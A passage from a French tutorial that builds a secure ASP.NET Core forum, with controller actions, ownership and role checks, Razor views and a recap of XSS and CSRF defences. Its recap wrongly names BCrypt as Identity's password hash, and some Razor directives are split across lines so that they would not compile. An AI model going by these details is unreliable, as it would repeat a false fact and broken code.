                return Forbid(); // HTTP 403
            }

            return View(post);
        }

        [HttpPost]
        [ValidateAntiForgeryToken]
        public async Task<IActionResult> Edit(int id, string content)
        {
            var post = await _context.Posts.FindAsync(id);

            if (post == null)
            {
                return NotFound();
            }

            // SÉCURITÉ : Re-vérifier que l'utilisateur est l'auteur
            var currentUserId = User.FindFirstValue(ClaimTypes.NameIdentifier);
            if (post.AuthorId != currentUserId)
            {
                return Forbid();
            }

            post.Content = content;
            post.UpdatedAt = DateTime.UtcNow;

            await _context.SaveChangesAsync();

            TempData["Success"] = "Réponse modifiée !";
            return RedirectToAction("Details", "Topic", new { id = post.TopicId });
        }

        // ==========================================
        // SUPPRIMER UNE RÉPONSE (modérateurs seulement)
        // ==========================================
        
        [HttpPost]
        [ValidateAntiForgeryToken]
        [Authorize(Roles = "Moderator")] // ← Protection par rôle
        public async Task<IActionResult> Delete(int id)
        {
            var post = await _context.Posts.FindAsync(id);

            if (post == null)
            {
                return NotFound();
            }

            var topicId = post.TopicId;

            _context.Posts.Remove(post);
            await _context.SaveChangesAsync();

            TempData["Success"] = "Réponse supprimée !";
            return RedirectToAction("Details", "Topic", new { id = topicId });
        }
    }
}
```

### 5.4 Créer les vues

#### Views/Topic/Index.cshtml

```html
@model IEnumerable
<SecureForumApp.Data.Entities.Topic>
    @using Microsoft.AspNetCore.Identity
    @inject SignInManager
    <IdentityUser> SignInManager

        @{
        ViewData["Title"] = "Forum - Liste des sujets";
        }

        <div class="row">
            <div class="col-md-12">
                <div class="d-flex justify-content-between align-items-center mb-4">
                    <h2><i class="bi bi-chat-dots"></i> Sujets de Discussion</h2>

                    @if (SignInManager.IsSignedIn(User))
                    {
                    <a asp-action="Create" class="btn btn-primary">
                        <i class="bi bi-plus-circle"></i> Nouveau Sujet
                    </a>
                    }
                    else
                    {
                    <a asp-action="Login" asp-controller="Account" class="btn btn-outline-primary">
                        <i class="bi bi-box-arrow-in-right"></i> Connectez-vous pour créer un sujet
                    </a>
                    }
                </div>

                @if (!Model.Any())
                {
                <div class="alert alert-info">
                    <i class="bi bi-info-circle"></i> Aucun sujet pour le moment.
                    Soyez le premier à en créer un !
                </div>
                }
                else
                {
                <div class="list-group">
                    @foreach (var topic in Model)
                    {
                    <a asp-action="Details" asp-route-id="@topic.Id"
                       class="list-group-item list-group-item-action">
                        <div class="d-flex w-100 justify-content-between">
                            <h5 class="mb-1">@topic.Title</h5>
                            <small class="text-muted">
                                <i class="bi bi-chat-left-text"></i> @topic.Posts.Count réponses
                            </small>
                        </div>
                        <p class="mb-1">
                            <small class="text-muted">
                                Par <strong>@topic.Author.UserName</strong>
                                le @topic.CreatedAt.ToShortDateString()
                            </small>
                        </p>
                    </a>
                    }
                </div>
                }
            </div>
        </div>
```

#### Views/Topic/Create.cshtml

```html
@model SecureForumApp.ViewModels.TopicCreateViewModel
@{
ViewData["Title"] = "Créer un sujet";
}

<div class="row justify-content-center">
    <div class="col-md-8">
        <div class="card shadow">
            <div class="card-header bg-primary text-white">
                <h3 class="mb-0">
                    <i class="bi bi-plus-circle"></i> Créer un nouveau sujet
                </h3>
            </div>
            <div class="card-body">
                <form asp-action="Create" method="post">
                    <div asp-validation-summary="All" class="text-danger mb-3"></div>

                    <div class="mb-3">
                        <label asp-for="Title" class="form-label"></label>
                        <input asp-for="Title" class="form-control"
                               placeholder="De quoi voulez-vous parler ?"
                               autofocus/>
                        <span asp-validation-for="Title" class="text-danger"></span>
                    </div>

                    <div class="d-flex justify-content-between">
                        <a asp-action="Index" class="btn btn-secondary">
                            <i class="bi bi-arrow-left"></i> Annuler
                        </a>
                        <button type="submit" class="btn btn-primary">
                            <i class="bi bi-check-circle"></i> Créer le sujet
                        </button>
                    </div>
                </form>
            </div>
        </div>
    </div>
</div>

@section Scripts {
<partial name="_ValidationScriptsPartial"/>
}
```

#### Views/Topic/Details.cshtml

```html
@model SecureForumApp.Data.Entities.Topic
@using Microsoft.AspNetCore.Identity
@using System.Security.Claims
@inject SignInManager
<IdentityUser> SignInManager

    @{
    ViewData["Title"] = Model.Title;
    var currentUserId = User.FindFirstValue(ClaimTypes.NameIdentifier);
    }

    <div class="row">
        <div class="col-md-12">
            <!-- En-tête du sujet -->
            <div class="card shadow mb-4">
                <div class="card-header bg-primary text-white">
                    <h2 class="mb-0">@Model.Title</h2>
                    <small>
                        Par <strong>@Model.Author.UserName</strong>
                        le @Model.CreatedAt.ToShortDateString() à @Model.CreatedAt.ToShortTimeString()
                    </small>
                </div>
            </div>

            <!-- Liste des réponses -->
            <h4 class="mb-3">
                <i class="bi bi-chat-left-text"></i> Réponses (@Model.Posts.Count)
            </h4>

            @if (!Model.Posts.Any())
            {
            <div class="alert alert-info">
                <i class="bi bi-info-circle"></i> Aucune réponse pour le moment.
                Soyez le premier à répondre !
            </div>
            }
            else
            {
            @foreach (var post in Model.Posts.OrderBy(p => p.CreatedAt))
            {
            <div class="card mb-3">
                <div class="card-body">
                    <p class="card-text">@post.Content</p>
                </div>
                <div class="card-footer d-flex justify-content-between align-items-center">
                    <small class="text-muted">
                        Par <strong>@post.Author.UserName</strong>
                        le @post.CreatedAt.ToShortDateString()

                        @if (post.UpdatedAt.HasValue)
                        {
                        <span class="badge bg-secondary">Modifié</span>
                        }
                    </small>

                    <div>
                        @* Bouton Modifier (seulement l'auteur) *@
                        @if (currentUserId == post.AuthorId)
                        {
                        <a asp-controller="Post" asp-action="Edit"
                           asp-route-id="@post.Id"
                           class="btn btn-sm btn-warning">
                            <i class="bi bi-pencil"></i> Modifier
                        </a>
                        }

                        @* Bouton Supprimer (seulement modérateurs) *@
                        @if (User.IsInRole("Moderator"))
                        {
                        <form asp-controller="Post" asp-action="Delete"
                              asp-route-id="@post.Id"
                              method="post" class="d-inline">
                            <button type="submit" class="btn btn-sm btn-danger"
                                    onclick="return confirm('Confirmer la suppression ?');">
                                <i class="bi bi-trash"></i> Supprimer
                            </button>
                        </form>
                        }
                    </div>
                </div>
            </div>
            }
            }

            <!-- Formulaire de réponse -->
            @if (SignInManager.IsSignedIn(User))
            {
            <div class="card shadow mt-4">
                <div class="card-header bg-success text-white">
                    <h5 class="mb-0">
                        <i class="bi bi-reply"></i> Ajouter une réponse
                    </h5>
                </div>
                <div class="card-body">
                    <form asp-controller="Post" asp-action="Create" method="post">
                        <input type="hidden" name="TopicId" value="@Model.Id"/>

                        <div class="mb-3">
                            <textarea name="Content" class="form-control" rows="4"
                                      placeholder="Votre réponse..." required></textarea>
                        </div>

                        <button type="submit" class="btn btn-success">
                            <i class="bi bi-send"></i> Envoyer
                        </button>
                    </form>
                </div>
            </div>
            }
            else
            {
            <div class="alert alert-warning mt-4">
                <i class="bi bi-exclamation-triangle"></i>
                Vous devez être
                <a asp-controller="Account" asp-action="Login"
                   asp-route-returnUrl="@Context.Request.Path">
                    connecté
                </a>
                pour répondre.
            </div>
            }

            <div class="mt-4">
                <a asp-action="Index" class="btn btn-secondary">
                    <i class="bi bi-arrow-left"></i> Retour à la liste
                </a>
            </div>
        </div>
    </div>
```

#### Views/Post/Edit.cshtml

```html
@model SecureForumApp.Data.Entities.Post
@{
ViewData["Title"] = "Modifier la réponse";
}

<div class="row justify-content-center">
    <div class="col-md-8">
        <div class="card shadow">
            <div class="card-header bg-warning">
                <h3 class="mb-0">
                    <i class="bi bi-pencil"></i> Modifier votre réponse
                </h3>
            </div>
            <div class="card-body">
                <form asp-action="Edit" method="post">
                    <input type="hidden" name="id" value="@Model.Id"/>

                    <div class="mb-3">
                        <label class="form-label">Contenu</label>
                        <textarea name="content" class="form-control" rows="6"
                                  required>@Model.Content</textarea>
                    </div>

                    <div class="d-flex justify-content-between">
                        <a asp-controller="Topic" asp-action="Details"
                           asp-route-id="@Model.TopicId"
                           class="btn btn-secondary">
                            <i class="bi bi-x-circle"></i> Annuler
                        </a>
                        <button type="submit" class="btn btn-warning">
                            <i class="bi bi-check-circle"></i> Enregistrer
                        </button>
                    </div>
                </form>
            </div>
        </div>
    </div>
</div>
```

---

## Résumé et Points Clés

### Ce que nous avons appris

1. **Authentification vs Autorisation**
    - Authentification = Qui es-tu ?
    - Autorisation = Que peux-tu faire ?

2. **ASP.NET Core Identity**
    - Système complet de gestion des utilisateurs
    - Authentification par cookie
    - Hash sécurisé des mots de passe (BCrypt)

3. **Système de Fixtures**
    - Pré-remplissage automatique de la base de données
    - Création de rôles, utilisateurs et contenu de test
    - Idempotent (peut être exécuté plusieurs fois)

4. **Login/Register personnalisé**
    - Contrôleurs MVC au lieu de Razor Pages
    - ViewModels pour la validation
    - Vues Razor complètes avec Bootstrap

5. **Autorisation multicouche**
    - `[Authorize]` : Nécessite authentification
    - Vérification de propriété : `if (post.AuthorId == currentUserId)`
    - `[Authorize(Roles = "Moderator")]` : Nécessite un rôle spécifique

6. **Protection contre les attaques**
    - XSS : Encodage automatique de Razor
    - CSRF : `[ValidateAntiForgeryToken]`
    - Open Redirect : `Url.IsLocalUrl(returnUrl)`

### Architecture de sécurité

```
┌─────────────────────────────────────────────────┐
│              COUCHES DE SÉCURITÉ                │
├─────────────────────────────────────────────────┤
│                                                 │
│  1️⃣ Transport : HTTPS                           │
│     └─> Chiffrement des communications          │
│                                                 │
│  2️⃣ Authentification : Identity + Cookies       │
│     └─> Qui es-tu ?                             │
│                                                 │
│  3️⃣ Autorisation : [Authorize] + Rôles          │
│     └─> Que peux-tu faire ?                     │
│                                                 │
│  4️⃣ Validation : Anti-CSRF Tokens               │
│     └─> Protection des formulaires              │
│                                                 │
│  5️⃣ Encodage : Razor automatique                │
│     └─> Protection XSS                          │
│                                                 │
│  6️⃣ Vérification métier : Ownership checks      │
│     └─> Logique applicative                     │
│                                                 │
└─────────────────────────────────────────────────┘
```

---

## Conclusion {#conclusion}

Vous avez maintenant les clés pour construire des applications qui non seulement fonctionnent, mais qui protègent aussi
leurs utilisateurs et leurs données. Vous comprenez la danse cruciale entre l'**authentification** et l'**autorisation
**, vous savez mettre en place un système robuste avec **ASP.NET Core Identity**, et vous connaissez les parades contre
les menaces les plus communes du web, **XSS** et **CSRF**.

### Points essentiels à retenir

- **Toujours valider les entrées utilisateur** - Ne jamais faire confiance aux données provenant du client

- **Utiliser HTTPS partout** - Même en développement

- **Ne jamais stocker de mots de passe en clair** - Laisser Identity gérer le hachage

- **Protéger tous les formulaires POST** - `[ValidateAntiForgeryToken]`

- **Vérifier les droits à chaque action sensible** - Pas seulement dans l'UI

- **Principe du moindre privilège** - Donner uniquement les permissions nécessaires

### La sécurité est un processus continu

La sécurité n'est pas un ajout, c'est un état d'esprit. Pensez-y dès le début de vos projets. Les menaces évoluent, les
technologies changent, et vos connaissances doivent suivre.

